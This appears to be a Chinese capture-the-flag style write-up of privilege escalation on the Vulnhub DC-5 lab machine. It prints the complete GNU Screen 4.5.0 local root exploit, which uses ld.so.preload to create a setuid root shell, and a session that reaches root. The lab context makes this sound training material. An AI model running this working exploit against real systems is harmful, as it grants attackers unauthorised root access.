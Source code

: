 ```yaml
---
title: Vulnhub DC-5 渗透测试(2)
tags:
  - - Vulnhub
  - - 渗透测试
  - - 提权
categories:
  - [项目组, Kali]
abbrlink: e6bc9214
date: 2021-04-10 13:14:05
---
```


> `Vulnhub DC-5` GetShell后的提权

## 1. 利用点查找

查找所有具有setuid的指令

```bash
www-data@dc-5:~/html$ find / -perm -u=s -type f 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
/bin/su
/bin/mount
/bin/umount
/bin/screen-4.5.0
/usr/bin/gpasswd
/usr/bin/procmail
/usr/bin/at
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/chsh
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/sbin/exim4
/sbin/mount.nfs
```

可以看到在可执行文件中有个显著的程序`screen-4.5.0`。

通过`searchsploit`查找`screen 4.5`的可利用漏洞。

```bash
> searchsploit screen 4.5
--------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                   |  Path
--------------------------------------------------------------------------------- ---------------------------------
GNU Screen 4.5.0 - Local Privilege Escalation                                    | linux/local/41154.sh
GNU Screen 4.5.0 - Local Privilege Escalation (PoC)                              | linux/local/41152.txt
--------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

主要关注`/usr/share/exploitdb/exploits/linux/local/41154.sh`文件，可以看到直接给出了利用方式。

同时给出了[bug](https://lists.gnu.org/archive/html/screen-devel/2017-01/msg00025.html)介绍，简要看了一下主要是**利用程序的check以root权限打开日志文件**。这使得我们可以截断任何文件或创建一个具有任何目录中的任何内容的root文件，并且可以通过这种方式轻松地获取root权限。

```bash
> cat /usr/share/exploitdb/exploits/linux/local/41154.sh/41154.sh
#!/bin/bash
# screenroot.sh
# setuid screen v4.5.0 local root exploit
# abuses ld.so.preload overwriting to get root.
# bug: https://lists.gnu.org/archive/html/screen-devel/2017-01/msg00025.html
# HACK THE PLANET
# ~ infodox (25/1/2017)
echo "~ gnu/screenroot ~"
echo "[+] First, we create our shell and library..."
cat << EOF > /tmp/libhax.c
#include <stdio.h>ls
#include <sys/types.h>
#include <unistd.h>
__attribute__ ((__constructor__))
void dropshell(void){
    chown("/tmp/rootshell", 0, 0);
    chmod("/tmp/rootshell", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] done!\n");
}
EOF
gcc -fPIC -shared -ldl -o /tmp/libhax.so /tmp/libhax.c
rm -f /tmp/libhax.c
cat << EOF > /tmp/rootshell.c
#include <stdio.h>
int main(void){
    setuid(0);
    setgid(0);
    seteuid(0);
    setegid(0);
    execvp("/bin/sh", NULL, NULL);
}
EOF
gcc -o /tmp/rootshell /tmp/rootshell.c
rm -f /tmp/rootshell.c
echo "[+] Now we create our /etc/ld.so.preload file..."
cd /etc
umask 000 # because
screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so" # newline needed
echo "[+] Triggering..."
screen -ls # screen itself is setuid, so...
/tmp/rootshell
```

## 2. 漏洞利用

上述`41154.sh`本来应该直接具有可执行性。但是上传到被攻击服务器上时，执行有错误。

对脚本稍作整理之后执行。执行过程并不复杂。

**将第一部分代码存于`/tmp/libhax.c`编译为`/tmp/libhax.so`。**

**内容主要是为了赋予`rootshell`可执行文件权限。**

```c
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
__attribute__ ((__constructor__))
void dropshell(void){
    chown("/tmp/rootshell", 0, 0);
    chmod("/tmp/rootshell", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] done!\n");
}
```

**将第二部分代码存于`/tmp/rootshell.c`编译为`/tmp/rootshell`。**

**内容主要是设置`setuid`等权限，提权后运行`sh`。**

```c
#include <stdio.h>
int main(void){
    setuid(0);
    setgid(0);
    seteuid(0);
    setegid(0);
    execvp("/bin/sh", NULL, NULL);
}
```

**第三部分执行代码，可保存为shell脚本等待使用`poc.sh`。**

**内容主要是讲第一部分的提升`rootshell`权限的部分写入`/etc`的某个文件中，并引起执行。**

```bash
echo "[+] Now we create our /etc/ld.so.preload file..."
cd /etc
umask 000 # because
screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so" # newline needed
echo "[+] Triggering..."
screen -ls # screen itself is setuid, so...
/tmp/rootshell
```

**将整理好的`libhax.so`、`rootshell`、`poc.sh`上传到靶机的`/tmp`下。赋予`poc.sh`权限，执行后看到提权成功。**

```bash
www-data@dc-5:~/html$ cd /tmp
www-data@dc-5:/tmp$ ls
dc5.sh	libhax.so  rootshell
www-data@dc-5:/tmp$ chmod +x poc.sh
www-data@dc-5:/tmp$ ./poc.sh
[+] Now we create our /etc/ld.so.preload file...
[+] Triggering...
' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
[+] done!
No Sockets found in /tmp/screens/S-www-data.

# whoami
root
# cd /root
# ls
thisistheflag.txt
#
```

